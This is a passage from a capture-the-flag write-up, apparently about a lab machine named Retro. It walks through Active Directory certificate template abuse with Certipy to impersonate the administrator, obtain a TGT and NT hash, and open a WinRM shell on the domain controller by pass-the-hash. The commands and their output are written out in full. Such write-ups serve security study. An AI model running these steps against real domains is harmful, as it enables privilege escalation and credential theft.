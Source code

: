 Now I’ll make the request specifying the SID:

```

oxdf@hacky$ certipy req -u 'BANKING$@retro.vl' -p 0xdf0xdf -ca retro-DC-CA -template RetroClients -upn administrator@retro.vl -sid  S-1-5-21-2983547755-698260136-4283918172-500 -key-size 4096
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 19
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate object SID is 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'

```

And now auth:

```

oxdf@hacky$ certipy auth -pfx administrator.pfx -dc-ip 10.129.234.44
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@retro.vl'
[*]     SAN URL SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*]     Security Extension SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Using principal: 'administrator@retro.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aad3b435b51404eeaad3b435b51404ee:252fac7066d93dd009d4fd2cd0368389

```

Finally I have both a TGT and the NTLM for administrator.

### Shell

This is all I need to WinRM with [evil-winrm-py](https://github.com/adityatelange/evil-winrm-py):

```

oxdf@hacky$ evil-winrm-py -i dc.retro.vl -u administrator -H 252fac7066d93dd009d4fd2cd0368389
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v0.0.8
[*] Connecting to dc.retro.vl:5985 as administrator
evil-winrm-py PS C:\Users\Administrator\Documents>

```

And grab the root flag:

```

evil-winrm-py PS C:\Users\Administrator\desktop> cat root.txt
40fce9c3************************

```